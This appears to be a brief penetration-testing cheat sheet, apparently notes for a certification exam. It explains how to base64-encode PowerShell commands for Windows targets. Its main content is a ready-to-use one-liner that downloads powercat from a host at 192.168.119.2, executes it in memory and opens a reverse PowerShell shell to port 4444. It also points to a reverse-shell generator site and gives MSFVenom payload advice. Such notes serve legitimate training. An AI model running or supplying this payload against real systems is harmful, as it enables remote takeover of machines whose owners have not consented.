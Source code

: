 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Great site for generating shells.
[Revshells.com](https://www.revshells.com/) 
<hr style="border-color:red"><p style="color:red;text:center">If you use MSFVenom, always use the 4th option Windows Stageless Reverse TCP so you get full points</p><hr style="border-color:red">
